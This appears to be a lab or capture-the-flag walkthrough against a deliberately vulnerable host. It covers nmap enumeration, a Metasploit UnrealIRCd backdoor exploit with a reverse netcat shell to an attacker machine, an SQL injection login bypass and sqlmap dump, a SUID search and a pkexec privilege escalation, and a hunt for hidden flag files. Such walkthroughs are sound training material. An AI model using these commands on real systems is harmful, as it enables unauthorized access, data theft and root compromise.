 
## STEPS TO REPRODUCE

### Port & Service Enumeration

**Tool:** nmap
**Command:**

```bash
nmap -p- -sV -sC 10.0.2.15
```

Flags:

* `-p-`: scan all TCP ports 1–65535
* `-sV`: service/version detection
* `-sC`: run default NSE scripts

### Exploitation — UnrealIRCd (Port 6697)

**Tool:** msfconsole

```text
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 10.0.2.15
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set PAYLOAD cmd/unix/reverse_netcat
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 10.0.2.20
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
```

Post-exploit: run `whoami` and `id` to confirm access as `boba_fett`.

### Exploitation — SQL Injection (Payroll App)

**Tool:** sqlmap (and manual bypass)

Manual bypass payload in login form:

```
' OR 1=1#
```

Automated dump example:

```bash
sqlmap -u "http://10.0.2.15/payroll_app.php" --dump
```

### Privilege Escalation

* Search for SUID binaries and suspicious setuid paths: `find / -perm -4000 -type f 2>/dev/null`
* Use the pkexec local exploit to escalate to root (apply vendor patches immediately).

### Post-Exploitation File Hunting

* Use `find`, `grep`, and metadata tools (exiftool/binwalk) to locate hidden files, steganographic content, and flags in deep directories (e.g., `.secret_files`, `/opt/`, container filesystems).

---